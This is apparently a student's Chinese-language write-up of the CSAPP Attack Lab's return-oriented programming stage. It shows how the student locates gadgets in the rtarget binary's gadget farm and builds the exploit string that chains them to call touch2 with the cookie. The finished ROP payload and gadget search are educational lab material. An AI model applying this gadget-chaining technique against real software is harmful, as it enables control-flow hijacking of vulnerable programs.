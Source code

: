 - 所有您需要的设备都可以在由 start_farm 和 mid_farm 函数划定的 rtarget 代码区域中找到。 

- 您可以使用仅两个组件执行此攻击。  

- 当设备使用 popq 指令时，它将从堆栈中弹出数据。因此，您的利用字符串将包含设备地址和数据组合。

  

### 解答：

我对于 ROP 攻击的理解就是在代码里东拼西凑，通过跳转拼出一份到达自己目的代码，有点类似<s>拼好饭</s>。

接下来就需要在 vscode 里搜索一些小片段。由于教授友情提示了 ：

*您可以使用仅两个组件执行此攻击。*

*当设备使用 popq 指令时，它将从堆栈中弹出数据。因此，您的利用字符串将包含设备地址和数据组合。*

根据我们在 level2 中的内容，我们可以尝试用以下代码来构造：

```assembly
popq %rax
movq %rax, %rdi
```

那么我们先找 popq 指令，在附录中可以查到对应的机器码 pop %rax 为58 ， movq %rax , %rdi 为 48 89 c7。在指定范围内搜索可以得到：

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

```assembly
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```

这两条指令由于后接的 retq 均可以用于构造  gadget，地址为  0x4019ab 或者 0x4019cc。

接下来寻找 48 89 c7：

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

至此我们可以通过 gadget 构造出我们想要的内容了。

```assembly
00 00 00 00 00
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00
ab 19 40 00 00 00 00 00 /* addval_219: popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie: 0x59b997fa */
c5 19 40 00 00 00 00 00 /* setval_426: movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* touch2 地址 */

```
